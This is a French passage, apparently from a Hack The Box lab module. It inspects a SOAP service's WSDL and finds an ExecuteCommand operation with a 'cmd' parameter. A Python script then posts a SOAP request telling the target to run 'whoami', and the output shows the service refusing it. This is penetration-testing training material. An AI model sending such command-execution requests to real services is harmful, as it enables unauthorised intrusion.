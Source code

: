 La première chose à laquelle il faut prêter attention est la suivante.

Code : xml

```
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>

```

Nous pouvons voir une opération SOAPAction appelée *ExecuteCommand* .

Voyons les paramètres.

Code : xml

```
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>

```

On remarque qu'il y a un paramètre *cmd* . Construisons un script Python pour émettre des requêtes (enregistrez-le sous `client.py`). Notez que le script ci-dessous essaiera de faire exécuter une `whoami`commande par le service SOAP.

Code : Python

```
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)

```

Le script Python peut être exécuté comme suit.

```
dsgsec@htb[/htb]$ python3 client.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'

```
